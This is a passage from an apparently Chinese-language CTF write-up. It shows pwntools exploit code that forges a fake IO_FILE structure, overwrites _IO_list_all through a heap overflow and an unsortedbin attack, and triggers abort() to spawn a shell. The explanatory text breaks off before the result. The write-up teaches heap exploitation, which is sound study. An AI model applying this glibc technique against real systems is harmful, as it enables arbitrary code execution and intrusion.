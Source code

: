 ```bash
payload = b"a"*0x400
fake = b"/bin/sh\x00"+p64(0x61)
fake += p64(0)+p64(io_list_all-0x10)
fake += p64(0)+p64(1)
fake = fake.ljust(0xd8,b"\x00")
fake += p64(heap_addr+0x520)
fake += p64(0)*3+p64(system)
payload += fake

edit(2,-1,payload)
```

伪造 fake IO 结构体，利用堆溢出将 unsorted bin chunk 的 size 修改成 0x61，bk 指针修改为 io\_list\_all-0x10，重新申请 chunk 时就会触发 unsortedbin attack，将\_IO\_list\_all 的值被改写为 main\_arena+88

[![](assets/1701606938-a757e941069abf21759130304f6d104e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201548-68d713f8-6a8b-1.png)

```bash
ru(b"Input your choice >> \n")
sl(b"1")
ru(b"How long is your note?")
sl(str(0x10))
```

最后利用 malloc\_assert 一举两得，触发 unsortedbin attack 同时触发 abort() 刷新 IO 文件流 getshell

效果：

